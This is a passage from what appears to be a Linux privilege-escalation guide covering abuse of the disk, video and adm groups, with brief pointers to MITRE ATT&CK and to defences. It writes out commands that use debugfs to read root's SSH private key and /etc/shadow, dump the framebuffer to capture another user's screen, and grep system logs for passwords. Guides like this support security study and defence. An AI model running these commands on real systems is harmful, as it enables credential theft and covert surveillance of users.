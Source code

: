You can find use that vulnerability as showed below where we use a filesystem debugger to get SSH keys and the /etc/shadow content.

```bash
debugfs /dev/sda1 # Starts debugging /dev/sda1
debugfs: cd /root # Move to /root
debugfs: ls # List all files in directory
debugfs: cat /root/.ssh/id_rsa # Display SSH Keys
debugfs: cat /etc/shadow # Display username and password
```

:white_check_mark: How to protect against or detect that technique:

- *Architecture*: Users should never belong to this group. If it is the case, it needs to be highly monitored.

##### Video Group

This group can be used locally to give a set of users access to a video device (like the framebuffer, the videocard or a webcam).

Application software that uses the frame buffer device (e.g. the X server) will use /dev/fb0 by default (older software uses /dev/fb0current).

Yo can then use Gimp to see the content.

```bash
w # Show who is logged on and what they are doing.
cat /dev/fb0 > /screenshot.raw # Copy the content from the first frame buffer towards screenshot.raw
cat /sys/class/graphics/fb0/virtual_size # Find the resolution of the screen
```

Then open screenshot.raw with Gimp and specify the Width and Height

<https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe#video-group>

For more information about that technique refer to [T1113 - Screen Capture](https://attack.mitre.org/techniques/T1113/)

##### ADM Group

This group allows you to view logs in /var/log.

```bash
ls -alhR /var/log                       # Display all files within /var/log
zgrep "authen" auth.log*                # Search out "authen" within auth.log compressed file
zgrep "pass" auth.log*                  # Search out "pass" within auth.log compressed 
zgrep "authen" access.log*              # Search out "authen" within access.log compressed file
zgrep "pass" access.log*                # Search out "pass" within access.log compressed file
grep -d recurse "pass" /var/log/*       # Search out "pass" within all files in /var/log
```

Here are some interesting logs:

- **/var/log/faillog**: Failure log database
- **lpr.log**: LP Print Service logs
- **var/log/mysql.**: MySQL logs
